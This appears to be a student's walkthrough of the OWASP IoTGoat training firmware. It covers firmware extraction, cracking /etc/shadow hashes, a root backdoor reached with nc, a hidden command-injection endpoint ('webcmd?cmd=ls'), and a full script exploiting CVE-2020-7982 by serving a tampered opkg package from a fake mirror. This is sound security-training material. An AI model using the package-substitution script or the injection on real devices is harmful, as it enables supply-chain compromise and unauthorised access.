 # IoTGoat - Firmware

You can download the firmware from the official OWASP release:

🔗 [Download IoTGoat Firmware (v1.0)](https://github.com/OWASP/IoTGoat/releases/download/v1.0/IoTGoat-x86.img.gz)

- After downloading the firmware , **extract** the `.img` file . 
- Then use **binwalk** to view/extract the file system embedded in the firmware.

```
$ binwalk IoTGoat-x86.img

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
262144        0x40000         Linux EXT filesystem, blocks count: 4096, image size: 4194304, rev 2.0, ext2 filesystem data, UUID=57f8f4bc-abf4-655f-bf67-946fc0f9c0f9
5325930       0x51446A        xz compressed data
17301504      0x1080000       Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3481630 bytes, 1352 inodes, blocksize: 262144 bytes
```
- Here **Squashfs Filesystem** is the type of compressed file system , used for read-only file-system. This is where the linux files are been held.

---

> Hardcoded Password

- Then you find some hardcoded passwds in /etc/shadow of the squashfs-root. This passwds can be cracked using some tools called `John The Ripper` and `HashCat`.

- I used some commonly used wordlist called mirabot-net. And cracked the passwd for **iotgoatuser**.

- For the root, it didn't work. I used rockyou.txt which also failed. So I tried to make a custom wordlist using some tools called crunch but it didn't as per my thought. So I am searching for some another ways to crack the password.

---
> Legacy network services listening upon start up

- This one is basically using nmap to search for open port in the router's ip.

- I got multiple services, for example:- http server , ssh and also telnetd which asks credentials when connected through nc.

---

> Persistent backdoor daemon configured to run during start up

- I found the backdoor when scanned the ip for open ports.I used nmap to scan for open ports. Some open ports were http,https which shows it is running some web.

- I used used a GUI tool of namp called zenmap in kali linux which hand in-built nmap option where i choose to scan all tcp port. This scan resulted in showing a tcp as backdoor.

- When I tried to connect to it through nc, i got the access as root. I also tried to create a file which was successful.

---

> A "secret" developer diagnostics page not directly accessible and exposes shell access to users

- When you look at the url of the web page , you can see the path of the file (i.e) */www/cgi-bin/luci* which is like a entry-point. By examining it and got to found out that it the code just gets and information and instruction from */usr/lib/lua/luci* (backend).

- Then I checked the controller directory and discovered the IoTGoat backend code for the camera and door modules, as well as a hidden command injection endpoint — **a secret developer diagnostics page**.

- Also it had a command to send through url (i.e) webcmd. I can send cmd through it for example, webcmd?cmd=ls will return me the output.

---

> Insufficient Privacy Protection

- I found out many leaked data using firmwalker which is a automated script to find the binarys, db files and more.

- It showed me many db files and keys for multiple apps. One db was in */usr/lib/lua/luci/controller/iotgoat/sensordata.db* which had email and their birthday dates.

---

> Lack of Device Management

- In the web application, only the kernal logs are avaiable in system. the Openwrt logs are not enabled.

---

> Insecure package update configuration defaults including CVE-2020-7982.

- opkg reads the SHA256sum field but the value has a leading space.The function checksum_hex2bin() tries to skip the space, but by mistake, it still uses the untrimmed version for decoding.This causes the decoding to fail silently, so no checksum gets stored.Later, the checksum check is skipped, allowing tampered packages to be installed without warning.

- So to exploit this **CVE-2020-7982** , we need the patch our own binary with a packages(download from [https://download.openwrt.org](https://download.openwrt.org)).

- We can find the architecture of the file which the opkg download from the server using **opkg print-architecture**.

- After finding the architecture, we can write a script to host a server to mimic the server from which opkg fetch the files and checks its intergity(actually it fails here).

`#!/bin/bash
set -e
rm -rf downloads.openwrt.org/ attr_20170915-1_i386_pentium4.ipk releases/

wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/luci/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/luci/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/routing/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/routing/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/telephony/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/telephony/Packages.sig || true
wget -x http://downloads.openwrt.org/releases/18.06.2/targets/x86/generic/packages/Packages.gz || true
wget -x http://downloads.openwrt.org/releases/18.06.2/targets/x86/generic/packages/Packages.sig || true

mv downloads.openwrt.org/releases .
rm -rf downloads.openwrt.org/

wget https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/attr_20170915-1_i386_pentium4.ipk
ORIGINAL_FILESIZE=$(stat -c%s "attr_20170915-1_i386_pentium4.ipk")
tar zxf attr_20170915-1_i386_pentium4.ipk
rm attr_20170915-1_i386_pentium4.ipk
mkdir data/
cd data/
tar zxvf ../data.tar.gz
rm ../data.tar.gz
rm -f /tmp/pwned.asm /tmp/pwned.o
echo "section .text" >>/tmp/pwned.asm
echo "global _start" >>/tmp/pwned.asm
echo "_start:" >>/tmp/pwned.asm
echo " mov edx,len" >>/tmp/pwned.asm
echo " mov ecx,msg" >>/tmp/pwned.asm
echo " mov ebx,1" >>/tmp/pwned.asm
echo " mov eax,4" >>/tmp/pwned.asm
echo " int 0x80" >>/tmp/pwned.asm
echo " mov eax,1" >>/tmp/pwned.asm
echo " int 0x80" >>/tmp/pwned.asm
echo "section .data" >>/tmp/pwned.asm
echo "msg db 'Nice Ch3ck',0xa" >>/tmp/pwned.asm
echo "len equ $ - msg" >>/tmp/pwned.asm
nasm -f elf32 /tmp/pwned.asm -o /tmp/pwned.o
ld -m elf_i386 /tmp/pwned.o -o usr/bin/attr
tar czvf ../data.tar.gz *
cd ../
rm -rf data/
tar czvf attr_20170915-1_i386_pentium4.ipk control.tar.gz data.tar.gz debian-binary
rm control.tar.gz data.tar.gz debian-binary
MODIFIED_FILESIZE=$(stat -c%s "attr_20170915-1_i386_pentium4.ipk")
FILESIZE_DELTA="$(($ORIGINAL_FILESIZE-$MODIFIED_FILESIZE))"
if [ $FILESIZE_DELTA -gt 0 ]; then
  head -c $FILESIZE_DELTA </dev/zero >>attr_20170915-1_i386_pentium4.ipk
fi
wget https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/libattr_20170915-1_i386_pentium4.ipk
mkdir -p releases/18.06.2/packages/i386_pentium4/packages/
mv attr_20170915-1_i386_pentium4.ipk releases/18.06.2/packages/i386_pentium4/packages/
mv libattr_20170915-1_i386_pentium4.ipk releases/18.06.2/packages/i386_pentium4/packages/
sudo python3 -m http.server 80 --bind 0.0.0.0`

- Above script, sets up a server and mimics as package server. But we should also configue the */etc/host* with our hosting ip. This only works when the opkg searchs for the package in the script's ip. There is also a another way to do without interacting or changes things in firmware, it is called DNS spoofing , which just redirects the request to our package server.

- Then run **opkg update && opkg install attr** which configures the attr perfectly without any warning.

- If we run attr, it displays *Nice Ch3ck*.

		

